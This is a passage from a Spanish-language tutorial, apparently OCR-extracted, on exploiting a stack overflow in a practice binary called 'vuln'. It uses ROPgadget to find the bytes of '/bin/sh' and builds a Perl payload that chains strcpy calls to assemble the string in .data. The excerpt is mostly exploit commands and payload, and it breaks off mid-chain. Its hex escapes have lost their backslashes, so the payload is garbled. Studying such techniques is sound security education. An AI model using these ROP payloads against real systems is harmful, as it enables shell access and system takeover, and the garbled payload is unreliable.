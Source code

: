$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string in  
Strings information  
\============================================================  
0x0804815d : in  
0x0804825e : in  
0x08048281 : in

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string /b  
Strings information  
\============================================================

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string /s  
Strings information  
\============================================================

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string s  
Strings information  
\============================================================  
0x08048162 : s  
0x08048252 : s  
0x0804825b : s  
0x08048262 : s  
0x08048266 : s  
0x08048270 : s  
0x08048279 : s  
0x08048299 : s  
0x080482b1 : s  
0x080482c2 : s

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string sh  
Strings information  
\============================================================

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string h  
Strings information  
\============================================================  
0x0804866c : h  
Vale, pues emplearemos las direcciones en este orden: 0x08048154 («/»), 0x08048157 («b»), 0x0804815d («in»), 0x08048154 («/»), 0x08048162 («s»), 0x0804866c («h»).  
De todas formas, ROPgadget solo te muestra resultados terminados en » (porque le estamos pidiendo precisamente una string). En caso de no encontrar el byte necesario siempre se puede emplear xxd y encontrarlo fácilmente (de esa forma obtienes el offset del byte en el archivo, luego tendrás que sumarle al offset la dirección en la que se carga el programa), sin embargo el tener todos los resultados terminados en » permite usar strcpy() en caso de no tener strncpy() o memcpy() \[si bien siempre puedes dejar que strcpy() te copie lo que quiera, que ya parará cuando encuentre un byte nulo, mientras la siguiente llamada a strcpy() sea justo tras el byte o bytes que interesaban, sirve perfectamente, puedes terminar la cadena con un strcpy() desde una posición donde se encuentre un byte nulo\].  
Pues a explotar se ha dicho  
``$ ./vuln `perl -e 'print  
> "A"x140 . # relleno  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x18xa0x04x08" . # .data  
> "x54x81x04x08" . # "/"  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x19xa0x04x08" . # .data+1  
> "x57x81x04x08" . # "b"  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x1axa0x04x08" . # .data+2  
> "x5dx81x04x08" . # "in"  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x1cxa0x04x08" . # .data+4  
> "x54x81x04x08" . # "/"  